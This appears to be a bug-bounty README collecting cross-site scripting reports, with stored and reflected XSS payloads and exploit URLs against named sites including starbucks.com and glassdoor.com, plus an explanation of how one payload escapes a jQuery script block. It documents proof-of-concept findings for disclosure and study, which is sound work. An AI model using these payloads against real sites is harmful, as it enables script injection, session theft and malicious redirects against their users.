 # XSS Reports 
## stored xss
 payload: ```"><img src=x onerror=alert(document.domain)>```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/b1a860c0-abd6-4a98-949e-dd723f4488aa)

## stored xss
payload : 

```<input><img src=a onmouseover=window.location.href='https://www.test.com'>```

```<img src=x onmouseover=alert('XSS-Stored')>``` 

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/fafd92e1-16f9-45d7-9a9b-946612ebb044)


## Reflected Cross site Scripting (XSS) on www.starbucks.com
url :  https://www.starbucks.com/account/signin?ReturnUrl=%19Jav%09asc%09ript%3ahttps%20%3a%2f%2fwww%2estarbucks%2ecom%2f%250Aalert%2528document.domain%2529

payload : ```Javascript:https://www.starbucks.com/alert(document.domain)```

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/b9685bba-070b-4d24-8910-20bf91d122d2)

## Reflected

Url: https://www.glassdoor.com/employers/sem-dual-lp/?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e
```
abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e

is url encoded for

abc`;return+false});});alert`xss`;</script>

which is used like

abc`;                       Finish the string
return+false});      Finish the jQuery click function
});                            Finish the jQuery ready function
alert`xss`;              Here we can execute our code
</script>               This closes the script tag to prevent JavaScript parsing errors
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/b59b85d0-32f9-48aa-b8cb-1cd4031b4c59)

